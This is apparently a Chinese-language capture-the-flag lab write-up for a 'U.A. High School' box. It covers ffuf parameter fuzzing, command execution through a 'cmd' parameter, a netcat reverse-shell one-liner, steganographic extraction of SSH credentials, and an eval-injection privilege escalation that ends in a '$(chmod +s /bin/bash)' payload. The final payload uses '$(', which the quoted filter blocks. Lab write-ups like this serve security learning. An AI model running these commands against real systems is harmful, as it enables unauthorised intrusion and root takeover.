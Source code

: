 ```yaml
---
icon: pen-to-square
date: 2025-05-07
tags: 
title: U.A. High School
category:
  - 项目
---
```

## 解题过程
端口扫描和网站爆破之后没有发现可以利用的点
但是在http://10.10.74.25/assets/images的响应很有趣
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250507213758.png)

证明了网页的存在，当访问http://10.10.36.251/assets/时，我们可以发现设置了`session`这意味着我们很可能访问了某个php文件

发现是个php文件后就有了一点操作空间，可以用模糊测试对php的参数进行碰撞
构造命令进行碰撞
```bash
ffuf -u 'http://10.10.85.228/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -fs 0
```
1. ​**​`-u 'http://10.10.85.228/assets/index.php?FUZZ=id'`​**​
    - ​**​作用​**​：指定目标 URL，`FUZZ` 是占位符，表示此处会被字典中的词替换。
    - ​**​示例​**​：若字典中有词 `user`，则实际请求为 `http://.../index.php?user=id`。
2. ​**​`-mc all`​**​
    - ​**​作用​**​：匹配所有 HTTP 状态码（`-mc` 表示 "match HTTP status code"）。
    - ​**​注意​**​：默认情况下，`ffuf` 仅显示状态码为 200、204、301 等的响应。使用 `all` 会显示所有状态码的响应（可能包含误报）。
3. ​**​`-ic`​**​
    - ​**​作用​**​：忽略响应中的 HTML 注释（`ignore comments`），避免因注释内容干扰结果判断。
4. ​**​`-t 100`​**​
    - ​**​作用​**​：设置并发线程数为 100，提高扫描速度。
5. ​**​`-w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt`​**​
    - ​**​作用​**​：指定用于替换 `FUZZ` 的字典文件路径（常见 Web 参数名的小写单词列表）。
6. ​**​`-fs 0`​**​
    - ​**​作用​**​：过滤（不显示）响应体大小为 0 的结果（`fs` 表示 "filter response size"）。
    - ​**​意图​**​：排除无实际内容的响应（如空页面或错误响应）。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192204.png)

搜索到参数`cmd`
似乎时RCE漏洞，试试看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192422.png)
似乎是base64加密
解一下码看看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508194401.png)
接下来高端操作来了
### 反弹shell
首先监听反射端口
```bash
nc -lvnp 1232
```
然后构造命令

```bash
curl -s 'http://10.10.38.88/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.50.132 1232 >/tmp/f'
```
这个目录有个可以的txt文件
```bash
/var/www/Hidden_Content
```

内容：`AllmightForEver!!!`


按下不表，继续看目录
然后看看assesst之前不让访问的目录
发现有一个`oneforall.jpg`图片，这是没使用过的资源，或者说这里确实有些跳跃，直接进入到

### 图片隐写提取
**图片恢复**
通过访问`http://10.10.38.88/assets/images/oneforall.jpg`将图片拉到本地
发现无法打开，进行图片恢复
010打开发现魔术字节为PNG，
手动恢复前几个字节
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508205950.png)

```hex
FF D8 FF E0 00 10 4A 46 49 46
```
图片显示正确
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508210008.png)

`binwalk`无法分离出有效文件
尝试`steghide`对隐写进行提取
```bash
steghide extract -sf oneforall.jpg
```
密码就是之前`Hidden_Content`目录下的文件
`AllmightForEver!!!`
发现密码
```bash
└─# cat creds.txt
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

接下来，尝试连接ssh。
`deku`
`One?For?All_!!one1/A`
连接成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508211219.png)

拿到第一个flag
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508211615.png)
直接提权试一下
```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku:
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```
提示在系统 `myheroacademia` 上，用户 `deku` 被允许以 ​**​root 权限（`(ALL)`）​**​ 执行以下命令：

```bash
/opt/NewComponent/feedback.sh
```

查看脚本的权限，我们的用户拥有它。所以，我们应该能够修改它。
```bash
deku@myheroacademia:~$ ls -la /opt/NewComponent/feedback.sh
-r-xr-xr-x 1 deku deku 684 Jan 23  2024 /opt/NewComponent/feedback.sh
```

但是如果我们尝试直接输入提权命令到那个文件，我们可以看到这是不允许的。
```bash
deku@myheroacademia:~$ echo -e '#!/bin/bash\nchmod +s /bin/bash' > /opt/NewComponent/feedback.sh
-bash: /opt/NewComponent/feedback.sh: Operation not permitted
```

列出文件的属性，我们可以看到标志已设置，这阻止了我们修改它.
```bash
deku@myheroacademia:/opt/NewComponent$ lsattr feedback.sh
----i---------e----- feedback.sh

```
由于我们无法修改它，让我们检查一下脚本内容。
```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```
该脚本通过 `eval "echo $feedback"` 直接执行用户输入的内容，虽然过滤了部分特殊字符（如反引号 `` ` ``、`$(`），但过滤不彻底，攻击者可构造恶意输入绕过限制，注入任意命令。
- 输入 `$(malicious_command)` 或 `${ls,-la}` 等格式，执行系统命令。
```bash
$(chmod +s /bin/bash)
```